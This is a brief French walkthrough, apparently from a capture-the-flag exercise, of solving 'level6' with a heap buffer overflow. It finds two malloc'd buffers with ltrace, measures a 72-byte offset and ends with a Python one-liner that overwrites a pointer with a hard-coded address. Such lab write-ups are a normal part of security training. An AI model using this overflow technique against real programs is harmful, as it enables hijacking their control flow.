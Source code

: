 Quand on disassamble le level6 on voit que y'a 2 malloc donc potentiel overflow

ltrace ./level6 test

y'a 2 malloc 1 de 64 et un de 4

avec comme adresse 0x0804a008 (64) vs 0x0804a050 (4)

grace au buffer overflow generator : https://wiremask.eu/tools/buffer-overflow-pattern-generator/

en essayant on voit que ca segfault a 72 donc ca veut dire qu'il a une difference de 72 va donc faire comme les autres flag

sauf qu'on rajoute le python en argument de l'executable car sinon il segfault sans argument

./level6 $(python -c 'print "A" * 72 + "\x54\x84\x04\x08"')